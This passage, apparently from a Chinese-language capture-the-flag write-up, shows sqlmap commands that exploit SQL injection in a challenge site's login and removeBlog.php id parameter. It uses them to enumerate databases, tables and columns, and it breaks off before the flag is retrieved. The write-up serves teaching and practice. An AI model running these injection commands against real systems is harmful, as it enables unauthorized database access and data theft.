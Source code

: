 > sqlmap -r "request.txt"

注入成功，自动登录进了**guest**用户页面，瞎翻翻，发现在文章管理中的删除文章处存在注入点，点击删除后地址变为

> url/api/removeBlog.php?id=3

再次构建语句尝试注入

> sqlmap -u url//api/removeBlog.php?id=3 --dbs

得到

> available databases [6]:
> 
> [\*] ctfer
> 
> \[\*] information_schema
> 
> [\*] mysql
> 
> [\*] performance_schema
> 
> [\*] sys
> 
> [*] test

推测flag应当在**ctfer**中，继续注入

>sqlmap -u url//api/removeBlog.php?id=3 -D ctfer --tables

获得表名

![web2-dbs](../assets/web2-dbs.png)

构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag --columns

得到

![web2-col](../assets/web2-col.png)
